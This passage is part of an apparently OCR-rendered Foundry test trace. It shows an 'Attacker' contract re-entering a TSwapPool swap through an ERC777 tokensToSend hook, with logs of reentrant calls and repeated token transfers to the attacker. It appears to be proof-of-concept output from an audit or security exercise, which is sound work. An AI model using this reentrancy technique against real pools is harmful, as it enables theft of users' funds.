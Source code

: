 ```javascript
    │   │   │   │   │   │   │   │   └─ ← [Return] 100000000000000000000 [1e20]
    │   │   │   │   │   │   │   ├─ emit Swap(swapper: Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], tokenIn: ERC777Token: [0xEaA46ff85feBa2BDA844207b3FC21Ec7837Ff9e9], amountTokenIn: 20000000000000000000 [2e19], tokenOut: ERC20Mock: [0x2e234DAe75C793f67A35089C9d99245E1C58470b], amountTokenOut: 16624979156244789061 [1.662e19])
    │   │   │   │   │   │   │   ├─ [26334] ERC777Token::transferFrom(Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], 20000000000000000000 [2e19])
    │   │   │   │   │   │   │   │   ├─ [942] 0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24::getInterfaceImplementer(Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], 0x29ddb589b1fb5fc7cf394961c1adf5f8c6454761adf795e67fe149f658abe895) [staticcall]
    │   │   │   │   │   │   │   │   │   └─ ← [Return] Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422]
    │   │   │   │   │   │   │   │   ├─ [2426] Attacker::tokensToSend(TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], 20000000000000000000 [2e19], 0x, 0x)
    │   │   │   │   │   │   │   │   │   ├─ [0] console::log("Reentrant call number: ", 3) [staticcall]
    │   │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   ├─ [0] console::log("time to move") [staticcall]
    │   │   │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   │   │   ├─ emit Sent(operator: TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], from: Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], to: TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], amount: 20000000000000000000 [2e19], data: 0x, operatorData: 0x)
    │   │   │   │   │   │   │   │   ├─ emit Transfer(from: Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], to: TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], value: 20000000000000000000 [2e19])
    │   │   │   │   │   │   │   │   ├─ emit Approval(owner: Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], spender: TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], value: 20000000000000000000 [2e19])
    │   │   │   │   │   │   │   │   ├─ [942] 0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24::getInterfaceImplementer(TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], 0xb281fc8c12954d22544db45de3159a39272895b169a852b314f9cc762e44c53b) [staticcall]
    │   │   │   │   │   │   │   │   │   └─ ← [Return] 0x0000000000000000000000000000000000000000
    │   │   │   │   │   │   │   │   └─ ← [Return] true
    │   │   │   │   │   │   │   ├─ [8104] ERC20Mock::transfer(Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], 16624979156244789061 [1.662e19])
    │   │   │   │   │   │   │   │   ├─ emit Transfer(from: TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], to: Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], value: 16624979156244789061 [1.662e19])
    │   │   │   │   │   │   │   │   └─ ← [Return] true
    │   │   │   │   │   │   │   └─ ← [Return] 0
    │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   ├─ [0] console::log("time to move") [staticcall]
    │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   ├─ emit Sent(operator: TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], from: Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], to: TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], amount: 20000000000000000000 [2e19], data: 0x, operatorData: 0x)
    │   │   │   │   │   ├─ emit Transfer(from: Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], to: TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], value: 20000000000000000000 [2e19])
    │   │   │   │   │   ├─ emit Approval(owner: Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], spender: TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], value: 20000000000000000000 [2e19])
    │   │   │   │   │   ├─ [942] 0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24::getInterfaceImplementer(TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], 0xb281fc8c12954d22544db45de3159a39272895b169a852b314f9cc762e44c53b) [staticcall]
    │   │   │   │   │   │   └─ ← [Return] 0x0000000000000000000000000000000000000000
    │   │   │   │   │   └─ ← [Return] true
    │   │   │   │   ├─ [3304] ERC20Mock::transfer(Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], 16624979156244789061 [1.662e19])
```